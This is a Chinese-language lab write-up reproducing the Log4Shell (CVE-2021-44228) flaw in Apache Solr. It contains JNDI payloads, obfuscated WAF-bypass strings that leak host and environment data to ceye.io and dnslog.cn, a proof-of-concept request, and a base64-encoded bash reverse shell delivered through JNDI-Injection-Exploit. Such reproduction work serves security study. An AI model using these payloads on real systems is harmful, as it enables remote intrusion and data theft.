

# CVE-2021-44228

> **Created by：** A-little-dragon
> 
> **Team：** TracelessSec
> 
> **漏洞描述：** Apche log4j远程代码执行漏洞


# 0x01 产品简介

Log4j 是 Apache 软件基金会开发的日志记录框架。顾名思义，Log4J 是个记录器；记录程序中的错误消息和用户输入等重要信息。

Log4J 是个开源软件库，提供开发人员可自由使用的预先编写的代码。开发人员可以将 Log4J 库插入自己的应用程序，无需专门编写记录器。这种便利性是 Log4J 应用广泛的原因；例如，它内置于 Microsoft 和 Amazon 等大型企业的产品中。

# 0x02 漏洞描述

Log4Shell 源于旧版本 Log4J 2 处理 Java 命名和目录接口 (JNDI) 查询的方式。JNDI 是一款应用程序编程接口 (API)，帮助 Java 应用程序访问外部服务器上托管的资源。JNDI 查询是个命令，告诉应用程序要前往服务器并下载具体对象，例如一段数据或脚本。旧版本的 Log4J 2 会自动运行通过这种方式下载的所有代码。

信息查找替换允许用户和应用程序使用特定语法（`${prefix:name}`）在日志信息中向 Log4J 发送变量。当 Log4J 遇到此语法时，它会解析该变量并将值记录在日志中。例如，如果 Log4J 收到一条消息，内容为`${java:version}`,它会找出设备上运行的当前 Java 版本，并会在日志中记录：“Java 版本 X.XX”。

换句话说，Log4J 不会将消息查找替换视为纯文本。它像命令一样对待它们，并根据它们所说的采取行动。黑客可以利用这一事实，向运行易受攻击的 Log4J 版本的应用程序发送恶意 JNDI 查找命令。例如，黑客可以向 Log4J 发送如下字符串：`${jndi:ldap://{ip}:{port}/dwsd}`当 Log4J 收到此消息时，它将通过访问该地址的服务器并下载位于 `/dwsd` 的对象来解析该变量。这一过程将导致 Log4J 执行黑客藏匿在该位置的任意 Java 代码。

# 0x03 影响范围

该漏洞影响 Apache Log4J 2 的 2.14.1 版本及更早版本

`Apache Log4j 2.x <= 2.14.1 <= Log4j 2.15.0-rc1`

# 0x04 环境搭建

执行以下命令启动使用 `Log4j 2.14.1` 的 `Apache Solr 8.11.0`：

```
docker compose up -d
```

服务器启动后，浏览`http://your-ip:8983`即可查看 Apache Solr 的管理门户。

# 0x04 漏洞复现

## Payload

```
${jndi:dns://${sys:java.version}.xxx.dnslog.cn}
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
${jndi:ldap://123.xxx.dnslog.cn}
```

## Bypass WAF

```
${jndi:ldap://127.0.0.1:1389/a}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://ceye.io/a}

${${::-j}ndi:rmi://ceye.io/a}

${jndi:rmi://ceye.io}

${${lower:jndi}:${lower:rmi}://ceye.io/a}

${${lower:${lower:jndi}}:${lower:rmi}://ceye.io/a}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://ceye.io/a}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://ceye.io/a}

${${upper:jndi}:${upper:rmi}://ceye.io/a}

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://ceye.io/a}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://ceye.io/a}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.ceye.io}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.ceye.io}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.ceye.io
```

## POC

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.xxx.dnslog.cn} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

## 开始

### 验证漏洞

这里利用HackBar访问该地址

```
http://{ip}:8983/solr/admin/cores?action=${jndi:ldap://111.xxx.dnslog.cn}
```



DNSlog平台返回如下信息


获得回显，说明存在漏洞。

### 反弹shell

> 注意：需要用到 **JNDI-Injection-Exploit** 工具，地址：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
> 

攻击机监听端口9999

```bash
nc -lvvp 9999
```


构造反弹shell命令

```bash
bash -i >& /dev/tcp/{vps_ip}/{vps_port} 0>&1
```

> 注意：vps_ip是你要反弹shell的主机ip，vps_port是要监听的端口。
> 

然后进行base64加密

base64加密站点地址：[https://tool.chinaz.com/tools/base64.aspx](https://tool.chinaz.com/tools/base64.aspx)


利用**JNDI-Injection-Exploit**工具，构造以下命令

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMjcvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -A "{vps_ip}"
```

运行后，如下所示


利用生成的payload进行攻击


发现拿到shell


